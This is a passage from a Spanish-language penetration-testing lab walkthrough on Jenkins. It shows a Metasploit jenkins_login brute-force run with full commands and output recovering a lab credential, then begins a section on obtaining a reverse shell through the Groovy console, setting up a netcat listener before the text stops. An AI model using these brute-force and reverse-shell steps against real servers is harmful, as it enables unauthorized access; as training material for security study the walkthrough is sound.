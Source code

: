Otra opción para aplicar fuerza bruta es utilizar el módulo `auxiliary/scanner/http/jenkins_login` de **Metasploit Framework**.

Inicia **Metasploit** y utiliza el módulo:
```bash
msfconsole -q
[*] Starting persistent handler(s)...
msf6 > use use auxiliary/scanner/http/jenkins_login
msf6 auxiliary(scanner/http/jenkins_login) >
```

Configúralo:
```bash
msf6 auxiliary(scanner/http/jenkins_login) > set RHOSTS 192.168.1.230
RHOSTS => 192.168.1.230
msf6 auxiliary(scanner/http/jenkins_login) > set TARGETURI /
TARGETURI => /
msf6 auxiliary(scanner/http/jenkins_login) > set USERNAME geralt
USERNAME => geralt
msf6 auxiliary(scanner/http/jenkins_login) > set PASS_FILE wordlist.txt
PASS_FILE => wordlist.txt
msf6 auxiliary(scanner/http/jenkins_login) > set VERBOSE false
VERBOSE => false
```

Y ejecútalo:
```bash
msf6 auxiliary(scanner/http/jenkins_login) > exploit
[+] 192.168.1.230:8080 - Login Successful: geralt:panda
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
Funcionó, tenemos la contraseña.

<br>

<h2 id="jenkinsRevShell">Obteniendo Reverse Shell Abusando del Servidor Jenkins</h2>

El siguiente blog nos explica como obtener una **Reverse Shell** manualmente y desde **Metasploit Framework**:
* <a href="https://www.hackingarticles.in/jenkins-penetration-testing/" target="_blank">Jenkins Penetration Testing</a>

Vamos a aplicar las dos formas que menciona.

<br>

<h3 id="jenkinsRevShell2">Obteniendo Reverse Shell Abusando de Consola Groovy del Servidor Jenkins</h3>

Primero, abre una **netcat**:
```bash
nc -nlvp 443
listening on [any] 443 ...
```

Entremos a la **consola de Groovy**:
